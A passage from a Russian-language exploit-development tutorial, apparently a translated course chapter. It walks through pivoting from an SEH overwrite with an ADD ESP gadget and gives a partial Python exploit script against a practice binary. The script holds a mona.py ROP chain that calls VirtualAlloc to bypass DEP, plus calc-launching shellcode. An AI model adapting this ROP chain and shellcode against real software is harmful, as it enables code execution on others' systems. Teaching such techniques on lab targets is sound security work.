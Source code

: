 Это то, что происходит после его запуска. **ESP** снова указывает на **SEH** и переходит назад на тот же гаджет и разрывается второй раз для значения регистра **EBP 0x41414141**, которое помещается в регистр **ESP** в **LEAVE** - **RET**.

Хорошо. Чтобы победить защиту и показать, как это сделать, я добавлю инструкцию **ADD ESP**, **XXXX** - **RET** в **MYPEPE**.

![](.gitbook/assets/39/15.png)

Мы будем использовать это как гаджет для перехода из **SEH**.

![](.gitbook/assets/39/16.png)

Давайте попробует перейти туда, где программа переставала работать, обработав исключение.

![](.gitbook/assets/39/17.png)

Мы видим, что после выполнения инструкции **ADD ESP**, **700** я готов продолжить выполнять наш **ROP**, а затем и сам шеллкод.

Мы видим расстояние, на которое должен идти **ROP**. Сейчас я нахожусь по адресу **ESP = 0xEFF5C0**. Давайте посмотрим где начинаются мои данные.

![](.gitbook/assets/39/18.png)

Данные начинаются по адресу **0xEFF4D4**. Я могу сделать вычитание и увидеть нужное расстояние.

![](.gitbook/assets/39/19.png)

Я подготавливаю скрипт.

```python
from os import *

import struct

def create_rop_chain():

# rop chain generated with mona.py - [www.corelan.be](http://www.corelan.be/)

rop_gadgets = [
    0x7801eb94, # POP EBP # RETN [Mypepe.dll]
    0x7801eb94, # skip 4 bytes [Mypepe.dll]
    0x7801ee74, # POP EBX # RETN [Mypepe.dll]
    0x00000001, # 0x00000001-> ebx
    0x7802920e, # POP EDX # RETN [Mypepe.dll]
    0x00001000, # 0x00001000-> edx
    0x7800a849, # POP ECX # RETN [Mypepe.dll]
    0x00000040, # 0x00000040-> ecx
    0x78028756, # POP EDI # RETN [Mypepe.dll]
    0x7800b281, # RETN (ROP NOP) [Mypepe.dll]
    0x78001492, # POP ESI # RETN [Mypepe.dll]
    0x780041ed, # JMP [EAX] [Mypepe.dll]
    0x78013953, # POP EAX # RETN [Mypepe.dll]
    0x7802e030, # ptr to &VirtualAlloc() [IAT Mypepe.dll]
    0x78009791, # PUSHAD # ADD AL,80 # RETN [Mypepe.dll]
    0x7800f7c1, # ptr to 'push esp # ret ' [Mypepe.dll]
]

return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

shellcode ="\xB8\x40\x50\x03\x78\xC7\x40\x04"+ "calc" + "\x83\xC0\x04\x50\x68\x24\x98\x01\x78\x59\xFF\xD1\x68\xAB\x39\x00\x78\xC3"

stdin, stdout = popen4(r'CANARY_con_DEP.exe -1')

print "ATACHEA EL DEBUGGER Y APRETA ENTER\n"
```